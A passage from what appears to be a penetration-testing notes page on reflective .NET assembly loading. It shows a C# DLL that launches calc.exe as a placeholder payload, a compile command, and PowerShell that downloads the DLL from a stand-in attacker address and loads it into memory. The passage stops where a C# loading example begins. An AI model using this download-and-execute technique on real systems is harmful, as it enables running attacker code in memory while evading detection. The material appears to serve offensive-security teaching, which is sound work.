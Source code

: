 {% tab title="Custom .NET DLL" %}
We can build our own DLL in C# and reflectively load it with Powershell. &#x20;

{% code title="evil.cs" %}
```csharp
using System;
using System.Diagnostics;

//This function just spawn calc.exe
namespace Do
{
    public class The
    {
        public static void thing()
		{

		    Process p = new Process();
			p.StartInfo.FileName = "calc.exe";
			p.Start();	
		}
    }
}
```
{% endcode %}

Compile the csharp code from our Linux host into a DLL

```bash
$ mcs -t:library evil.cs
```

Then we can transfer the DLL to the target (using http-server, or smb for example) and load the Assembly

```powershell
#Load assembly from memory
$data=(New-Object Net.Webclient).DownloadData("http://<ATTACKING_IP>/evil.dll")
[System.Reflection.Assembly]::Load($data)

#Load assembly from disk
[System.Reflection.Assembly]::Load([IO.File]::ReadAllBytes(".\evil.dll"))
```

Call methods

```powershell
PS> [Do.The]::thing()
```
{% endtab %}
{% endtabs %}

### C\#

We can implement Reflective Assembly Loading in `C#` and load the .NET assembly of a exe/dll.

{% tabs %}
{% tab title="Assembly.Load()" %}
Here is a simple code to load a .NET assembly (exe or dll) in memory from C# using the `Assembly.Load()` method
